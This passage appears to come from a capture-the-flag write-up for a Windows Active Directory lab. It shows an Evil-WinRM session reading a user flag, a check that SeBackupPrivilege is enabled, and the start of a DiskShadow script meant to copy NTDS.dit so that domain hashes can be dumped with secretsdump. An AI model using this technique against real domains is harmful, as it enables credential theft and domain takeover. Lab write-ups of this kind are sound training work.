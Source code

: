 ```
*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> ls


    Directory: C:\Users\emily.oscars.CICADA\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---          7/1/2025   7:54 AM             34 user.txt


*Evil-WinRM* PS C:\Users\emily.oscars.CICADA\Desktop> type user.txt
e5d6090616575ab3b15d8432ccbc3c0f

```

And we got the `user.txt` flag.


Now let's get full domain control, we know that from enumerating the AD vial bloodhound, `emily.oscars` is from `BACKUP OPERATORS` group

Let's ensure that:
```
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

And we can see that `SeBackupPrivilege` is `Enabled`, and we can abuse it to get full domain control.

The privilege (especially `SeBackupPrivilege`) can be leveraged to **dump the `NTDS.dit (Active Directory database)`** using **`DiskShadow`**, then extract domain credentials (including Admins) using `secretsdump`. Finally, we can reuse the hashes for **`lateral movement`** or **`privilege escalation`**. Let’s now go into detail.


We create a `raj.dsh` script with these contents:

```
set context persistent nowriters
add volume c: alias raj
create
expose %raj% z:
```

